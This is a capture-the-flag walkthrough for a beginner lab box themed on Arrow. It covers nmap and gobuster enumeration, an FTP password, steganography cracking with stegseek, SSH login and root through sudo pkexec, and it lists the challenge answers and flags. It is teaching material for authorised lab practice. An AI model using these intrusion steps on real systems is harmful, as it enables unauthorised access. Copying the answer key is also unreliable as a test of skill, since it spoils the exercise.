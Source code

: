 Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.  

Answer the questions below

| Question                                 | Answer           |
| ---------------------------------------- | ---------------- |
| Deploy the VM and Start the Enumeration. | No answer needed |

```
export IP=10.10.23.186
```

```
nmap -sC -sV -v -p- -oN scans/nmap $IP
```

![[Pasted image 20240610130328.png]]

```
gobuster dir --url $IP --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -o scans/gobuster.txt
```


![[Pasted image 20240610130555.png]]


```
gobuster dir --url $IP/island/ --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o scans/gobuster2.txt
```

![[Pasted image 20240611120609.png]]


| Question                             | Answer |
| ------------------------------------ | ------ |
| What is the Web Directory you found? | 2100   |



![[Pasted image 20240611121059.png]]


![[Pasted image 20240611121110.png]]



```
gobuster dir --url $IP/island/2100 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket -o scans/gobuster3.txt
```

![[Pasted image 20240611121919.png]]

![[Pasted image 20240611121952.png]]


| Question                         | Answer             |
| -------------------------------- | ------------------ |
| what is the file name you found? | green_arrow.ticket |

![[Pasted image 20240611122613.png]]



| Question                  | Answer    |
| ------------------------- | --------- |
| what is the FTP Password? | !#th3h00d |


```
ftp 10.10.3.219
```

![[Pasted image 20240611122753.png]]

```
ls -la
```

![[Pasted image 20240611122901.png]]

![[Pasted image 20240611123308.png]]

![[Pasted image 20240611123403.png]]

```
stegseek -sf aa.jpg /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20240611123744.png]]

```
unzip aa.jpg.out
```

![[Pasted image 20240611123931.png]]

```
cat passwd.txt
```

![[Pasted image 20240611124006.png]]

```
cat shado
```

![[Pasted image 20240611124029.png]]


```
ssh slade@10.10.3.219
```

![[Pasted image 20240611124215.png]]


| Question                                 | Answer |
| ---------------------------------------- | ------ |
| what is the file name with SSH password? | shado  |


```
ls -la
```

![[Pasted image 20240611124305.png]]

```
cat user.txt
```

![[Pasted image 20240611124326.png]]

| Question | Answer                                    |
| -------- | ----------------------------------------- |
| user.txt | THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T} |

```
sudo -l
```

![[Pasted image 20240611124435.png]]

```
sudo /usr/bin/pkexec /bin/bash
```

![[Pasted image 20240611124520.png]]

```
ls -la
```

![[Pasted image 20240611124550.png]]


| Question | Answer                                                                                      |
| -------- | ------------------------------------------------------------------------------------------- |
| root.txt | THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D} |
